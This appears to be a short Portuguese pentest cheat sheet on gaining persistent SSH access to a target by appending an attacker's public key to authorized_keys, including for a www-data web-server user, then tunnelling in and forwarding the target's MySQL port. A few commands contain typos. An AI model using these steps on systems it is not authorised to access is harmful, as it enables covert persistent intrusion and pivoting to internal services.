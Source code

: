 # SSH

ALVO ==>> ``cat ~/.ssh/authorized_keys``  
LOCAL ==>> ``ssh-keygen``  
LOCAL ==>> ``cat id_rsa.pub`` (Copiar)  
ALVO ==>> ``nano cat ~/.ssh/authorized_keys`` (Colar sua chave pública)  
LOCAL ==>> ``ssh-add``  
LOCAL ==>> Conectar no alvo via SSH.  

---

## 1- Local

```bash
ssh-keygen -P "" -f keys
```

*Será gerado as chaves públicas e privadas.*

## 2- Local

```bash
cat keys.pub *Copie a chave*
```

*Copie a chave pública para inserirmos no alvo.*

## 3- Alvo

```bash
mkdir ~www-data/.ssh/
```

*Cria uma pasta de ssh para o usuário www-data.*

## 4- Alvo

```bash
echo "Chave Pública" >> ~/.ssh/autorized_keys
```

*Cria uma chave autorizada no servidor.*

## 5- Alvo

```bash
ssh www-data@127.0.0.1 -p 2222 -i keys
```

*No comando acima estamos passando o usuário www-data e estamos utilizando o tunelamento, caso tenha dúvidas aconselho consultar o socat. Então é feito a conexão na porta local 2222 que será tunelada e passamos a chave privada keys gerada anteriormente para conectar.*

Criando redirecionamento através do SSH:

```bash
ssh www-data@127.0.0.1 -p 2222 -i keys -L 3333:127.0.0.1:3306
```

*Nesse comando a porta 3306 do alvo está sendo redirecionada para a porta local 3333.*
